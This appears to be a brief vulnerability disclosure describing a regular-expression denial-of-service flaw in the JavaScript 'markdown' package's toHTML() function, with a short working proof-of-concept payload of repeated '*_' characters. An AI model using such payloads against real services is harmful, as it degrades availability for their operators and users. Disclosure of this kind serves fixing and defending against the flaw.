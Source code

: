 # Description
```markdown``` is yet another Markdown parser, this time for JavaScript.
This package is vulnerable to ```Regular Expression Denial of Service(ReDoS)```. The ```markdown.toHTML()``` function will degrade performance when parsing long strings with underscores. Eg: ```*_*_*_```. This may lead to ReDos

#Proof-of-Concept
```
const markdown = require('markdown').markdown;
const payload = "*_".repeat(100);
console.log(markdown.toHTML(payload));
```
You can try changing the repeatation from 10 and then to 100 to see the degradation in performance.